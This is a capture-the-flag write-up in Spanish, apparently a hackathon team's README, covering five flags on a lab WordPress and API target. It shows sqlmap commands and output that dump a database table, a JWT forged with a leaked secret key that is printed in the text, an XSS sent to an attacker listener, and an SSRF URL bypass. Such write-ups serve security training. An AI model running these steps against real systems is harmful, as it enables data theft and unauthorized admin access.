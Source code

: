 # Hackathon NUWE - Schneider Electric

Nombres: 
- Gabriel Juan: @GabrielJuan349
- Anthony Michael Alonso
- Sergi Morales

Equipo/Mesa: 58

## FLAG{ALWAYS_CHECK_COMMITS}

Para encontrar el git hemos seguido estos pasos:
- url https definida en http://192.168.56.101/robots.txt
- Modificar el etc/hosts para añadir 192.168.56.101 wp.geohome.com
- Accediendo wp.geohome.com, se puede ver un link al github donde está el código fuente en el historial de commits.

![imagen del commit donde hemos encontrado el flag](./images/FLAG{ALWAYS_CHECK_COMMITS}_1.jpg?raw=true)

Imagen del commit donde hemos encontrado el flag

## FLAG{Update_Plugins!}

python sqlmap.py -u "https://wp.geohome.com/wp-admin/admin-ajax.php?action=get_question&question_id=1" --tables

[20:04:16] [INFO] fetching number of tables for database 'flag'
[20:04:16] [INFO] retrieved: 1
[20:04:18] [INFO] retrieved: flag

python sqlmap.py -u "https://wp.geohome.com/wp-admin/admin-ajax.php?action=get_question&question_id=1" --dump -D flag -T flag

[20:20:00] [INFO] fetching entries for table 'flag' in database 'flag'
[20:20:00] [INFO] fetching number of entries for table 'flag' in database 'flag'
[20:20:00] [INFO] retrieved: 1
[20:20:04] [INFO] retrieved: FLAG{Update_Plugins!}

## API_FLAG{Never_public_your_secret}

Aprovechando la información del git donde muestra endpoints de register y login, hemos creado un usuario y nos hemos logeado para conseguir un access_token.
Con ese token lo hemos pasado por jwt.io y hemos modificado el usuario por admin, y definido la JWT secret key del github "Ge0HomeIsThePlaceWhereFantasyMeetsReality" y hemos conseguido un nuevo access_token.
Con ese nuevo token hemos hecho una petición postman apuntando al endpoint /admin, el endpoint /admin lo hemos recuperado con fuzz.
![Hacemos el fuzz para encontrar mas endpoints](./images/fuzz_1.jpg?raw=true)

![cambiamos algunas cosas del token(user y le pinemos admin, y ponemos la JWT_SECRET_KEY](./images/token_admin.jpg?raw=true)


## FLAG{sanitize_input}

![Hacemos cross side scripting para enviar una peticion a nuestro kali](./images/cross_side_scripting_2.jpg?raw=true)

Hacemos cross side scripting para enviar una peticion a nuestro kali

![Ponemos un listener en el teminal y cuando se envia la peticion nosotros con el listener la capturamos y conseguimos la flag](./images/FLAG{sanitize_input}.jpg?raw=true)

Ponemos un listener en el teminal y cuando se envia la peticion nosotros con el listener la capturamos y conseguimos la flag


## FLAG{SSRF_PARA_TOD@S_XD}

![Cambiamos la url para llegar al sitio concreto cambiando letras y todo ](./images/FLAG{SSRF_PARA_TOD@S_XD}.jpg?raw=true)

Para conseguir la Flag hemos usado el URL: http://192.168.56.101/testsite.php?url=http://locAlhost:1337
